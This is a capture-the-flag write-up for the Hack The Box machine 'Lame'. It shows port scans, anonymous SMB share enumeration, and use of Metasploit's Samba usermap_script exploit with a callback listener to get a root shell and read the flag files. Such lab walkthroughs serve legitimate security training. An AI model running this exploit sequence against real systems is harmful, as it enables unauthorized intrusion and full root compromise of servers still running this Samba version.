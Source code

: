 # Lame
## Samba
## Metasploit
``````

➜  ~ rustscan -a 10.10.10.3 --ulimit 5000

Open 10.10.10.3:22
Open 10.10.10.3:21
Open 10.10.10.3:139
Open 10.10.10.3:445
Open 10.10.10.3:3632

➜  Lame sudo nmap -sV -T4 -p21,22,139,445,3632 -oA Lame -vv 10.10.10.3 

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

➜  ~ smbclient -L //10.10.10.3/

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP 

➜  ~ smbclient //10.10.10.3/tmp 

➜  Lame sudo nmap -sCV -T4 -p139,445 10.10.10.3 -vv

PORT    STATE SERVICE     REASON         VERSION
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

➜  Lame sudo msfconsole
msf6 > search Samba 3.0.20 < 3.0.25rc3
msf6 > use 0
msf6 exploit(multi/samba/usermap_script) > show options
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
msf6 exploit(multi/samba/usermap_script) > run

whoami

Response:

root

find / -name user.txt

/home/makis/user.txt

find / -name root.txt

/root/root.txt

cat /home/makis/user.txt

user_flag

cat /root/root.txt

root_flag

``````

![image](https://0xc0rvu5.github.io/docs/assets/images/20220621060317.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220621060251.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220621060446.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220621060658.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220621062040.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625004424.png)

#hacking 

